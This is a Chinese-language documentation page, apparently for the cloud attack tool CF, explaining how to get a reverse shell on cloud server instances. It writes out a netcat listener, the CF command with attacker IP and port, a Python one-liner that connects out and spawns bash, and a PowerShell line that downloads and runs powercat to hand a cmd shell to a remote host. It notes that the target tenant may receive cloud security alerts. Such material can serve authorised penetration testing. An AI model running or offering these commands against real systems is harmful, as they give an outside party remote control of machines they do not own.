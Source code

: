 ```yaml
---
title: 反弹 Shell
---
```


## 反弹 Shell

首先在自己的主机上开启监听

```bash
nc -lvvp 4444
```

接着在 CF 中执行反弹 Shell 命令

`--lhost` 参数配置为自己监听主机的 IP，`--lport` 参数配置为自己的监听端口，`-i` 设置要反弹 Shell 的实例 ID（如果未指定具体的实例，则 CF 会提醒是否是选择全部实例还是某个实例。）

```bash
cf ecs exec --lhost 123.123.123.123 --lport 4444 -i i-abcdefghijklmn
```

在 CF 中使用的 Linux 反弹 Shell 如下

```bash
export RHOST="123.123.123.123";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

   <img width="800" src="/img/1656605535.png">

   <img width="650" src="/img/1656605596.png">

在 CF 中使用的 Windows 反弹 Shell 如下

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://ghproxy.com/raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 123.123.123.123 -p 4444 -e cmd
```

   <img width="850" src="/img/1656605944.png">

   <img width="650" src="/img/1656605897.png">

> 由于 CF 等待命令执行结果的默认时间是 60 秒，所以在超过 60 秒后，CF 会提示命令执行超时，从而退出程序。
>
> 因为反弹 Shell 需要命令保持一直处于执行状态，所以在上面的图片里可以看到提示命令执行超时。

::: warning 注意

在阿里云下反弹 Shell ，目标租户可能会收到阿里云的云盾告警消息，所以此操作需谨慎。

:::

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年6月30日"
    }
  }
</script>